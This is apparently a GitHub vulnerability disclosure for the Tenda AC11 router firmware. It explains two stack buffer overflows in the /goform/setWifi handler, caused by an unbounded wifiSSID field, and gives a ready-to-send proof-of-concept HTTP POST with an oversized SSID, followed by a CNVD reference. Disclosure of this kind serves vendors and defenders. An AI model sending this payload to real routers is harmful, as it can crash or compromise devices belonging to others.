

# Tenda Router AC11 Vulnerability
The Vulnerability is in `/goform/setWifi` page which influence the lastest version routerOS(RTOS, This is system different from linux system)[AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html)

## Vulnerability description
In the page `/gofrom/setWifi` have two stack buffer overflow vulnerability.

1. It isn't limit our input when we input `wifiSSID` in `v11`,and `v11` convert value to `v12`.
2. Then `wifiSSID` will copy to a stack value `v52` by using `sprintf_1((int)v52, "%s_5G", v12);` .%s couldn't limit copy length ,so wo can make stack buffer overflow in `v52`
3. Meanwhile `v12` could copy to `v52` by using `strcpy` .It also could lead to stack buffer overflow


## poc 

```
POST /goform/setWifi HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```
## Time line
- report cnvd assgin CNVD-2021-30109
- report CVE wait for answer ...
